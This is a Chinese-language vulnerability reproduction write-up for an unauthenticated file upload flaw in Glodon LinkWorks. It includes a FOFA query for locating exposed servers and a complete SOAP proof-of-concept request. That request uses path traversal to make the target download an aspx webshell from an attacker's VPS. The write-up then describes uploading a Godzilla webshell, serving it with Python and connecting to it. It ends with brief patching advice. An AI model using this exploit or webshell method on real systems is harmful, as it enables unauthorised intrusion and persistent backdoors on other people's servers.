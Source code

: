 
# 广联达linkworks 文件上传漏洞复现

### 0x01 产品简介

 [广联达](https://so.csdn.net/so/search?q=%E5%B9%BF%E8%81%94%E8%BE%BE&spm=1001.2101.3001.7020) LinkWorks（也称为 GlinkLink 或 GTP-LinkWorks）是广联达公司（Glodon）开发的一种BIM（建筑信息模型）协同平台。广联达是中国领先的数字建造技术提供商之一，专注于为建筑、工程和建筑设计行业提供数字化解决方案。

### 0x02 漏洞概述

  由于广联达 LinkWorks /GB/LK/ArchiveManagement/Js/GWGDWebService.asmx接口处设置不当，未经身份认证的攻击者通过该漏洞上传恶意文件，可能导致恶意代码执行、身份伪造、后门植入、敏感数据泄露等问题。

### 0x03 复现环境

FOFA：

```cobol
body="Services/Identification/login.ashx" || header="Services/Identification/login.ashx" || banner="Services/Identification/login.ashx"
```

![](assets/1701134743-c03f5171a202aa03a165f48ca0023a20.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /GB/LK/ArchiveManagement/Js/GWGDWebService.asmx HTTP/1.1
Host: your-ip
Content-Type: text/xml; charset=utf-8
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetGWGDData>
         <!--Optional:-->
         <tem:data>
            <root>
               <GWINFO>
                  <公文标题>1</公文标题>
                  <拟稿人>拟稿人</拟稿人>
                  <主送单位>主送单位</主送单位>
                  <主题词>主题词</主题词>
                  <印发份数>1</印发份数>
                  <签发日期>2022-12-07</签发日期>
               </GWINFO>
               <aa>
                  <FileName>./../../../../../../../applications/gtp-default/Web/Common/1.aspx</FileName>
                  <DownLoadURL>http://vpsIP/1.aspx</DownLoadURL>
               </aa>
            </root>
         </tem:data>
      </tem:GetGWGDData>
   </soapenv:Body>
</soapenv:Envelope>
```

生成哥斯拉aspx马，上传至vps

python开启http服务器，发送请求

![](assets/1701134743-1cb7b907ba88baa04da11db420d8bb4e.png)

![](assets/1701134743-336ac0087d366ac7b59e565fe707b48b.png) 验证

![](assets/1701134743-e2264bb59fd98eafa69314bb5b4c0262.png)

尝试连接

### ![](assets/1701134743-14e406920b10d9bc9e5d3c301ca44af5.png) ![](assets/1701134743-bced54610c705e53c9720c7567d72511.png)0x05 修复建议 

官方暂已修复该漏洞，请用户联系厂商修复漏洞：http://www.glinkworks.com/office.html

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
